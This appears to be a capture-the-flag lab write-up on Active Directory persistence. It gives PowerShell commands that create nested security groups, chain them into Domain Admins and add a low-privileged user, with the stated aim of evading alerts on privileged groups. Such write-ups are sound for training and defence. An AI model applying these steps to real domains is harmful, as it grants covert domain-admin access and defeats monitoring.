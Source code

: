 # Persistence through Group Membership

If we want to persist through group membership, we may need to get creative regarding the groups we add our own accounts to for persistence:

* <mark style="color:red;">**IT Support groups**</mark> can reset passwords, which may help spread access across workstations, even if privileged accounts are restricted.
* <mark style="color:red;">**Local administrator rights**</mark> from network support groups can provide unnoticed persistence, allowing future domain compromise.
* <mark style="color:red;">**Indirect privileges**</mark> (e.g., control over Group Policy Objects) can be just as valuable as direct admin rights for persistence.

### <mark style="color:green;">Nested Groups</mark>

Nested groups are subgroups of other groups. Companies use nested groups for permission inheritance or to recreate the company’s structure in an external user directory.

<figure><img src="../../../.gitbook/assets/image (671).png" alt=""><figcaption></figcaption></figure>

While group nesting helps to organise AD, it does reduce the visibility of effective access. Take our IT Support example again. If we query AD for membership of the IT Support group, it would respond with a count of three. However, this count is not really true since it is three groups. To get an idea for effective access, we would now have to enumerate those subgroups as well. But those subgroups can also have subgroups. So the question becomes: "How many layers deep should we enumerate to get the real effective access number?"

As an attacker, we can leverage this reduced visibility to perform **persistence**. Instead of targeting the privileged groups that would provide us with access to the environment, we focus our attention on the subgroups instead. Rather than adding ourselves to a privileged group that would raise an alert, we add ourselves to a subgroup that is not being monitored.

### <mark style="color:green;">Nesting Our Persistence</mark>

Let us simulate this type of persistence by creating some of our own groups. Let's start by creating a new base group that we will hide in the People->IT Organisational Unit (OU):

```powershell
New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security
```

Create another group in the People->Sales OU and add our previous group as a member:

```powershell
New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 2" -SamAccountName "<username>_nestgroup2" -DisplayName "<username> Nest Group 2" -GroupScope Global -GroupCategory Security 
Add-ADGroupMember -Identity "<username>_nestgroup2" -Members "<username>_nestgroup1"
```

We can do this multiple more times by adding the previous group as a member. Let's now add that group to the Domain Admins group:

```powershell
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup2"
```

Lastly, we add our low-privileged user to the first group we created

```powershell
Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"
```

Verify this by SSH'ing to our user in THMWRK1 and list the the directories and files of the DC

<figure><img src="../../../.gitbook/assets/image (672).png" alt=""><figcaption></figcaption></figure>

Cool, it worked. Let's verify that our group was added to the DA group

```powershell
Get-ADGroupMember -Identity "Domain Admins"
```

<figure><img src="../../../.gitbook/assets/image (674).png" alt=""><figcaption></figcaption></figure>

